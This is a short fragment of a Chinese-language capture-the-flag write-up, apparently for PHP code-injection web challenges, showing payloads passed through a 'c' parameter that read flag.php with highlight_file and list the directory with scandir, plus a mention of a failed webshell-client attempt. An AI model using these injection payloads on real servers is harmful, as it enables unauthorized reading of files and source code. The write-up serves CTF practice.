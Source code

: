 使用读取文件函数进行读取

```
c=highlight_file("flag.php");
```

得到flag

![image-20240122121149034](照片/image-20240122121149034.png)

------

#### web62

同样，先试一下蚁剑，不出预料的失败了

构建命令查看flag位置

```
c=print_r(scandir(dirname('__FILE__')));
```

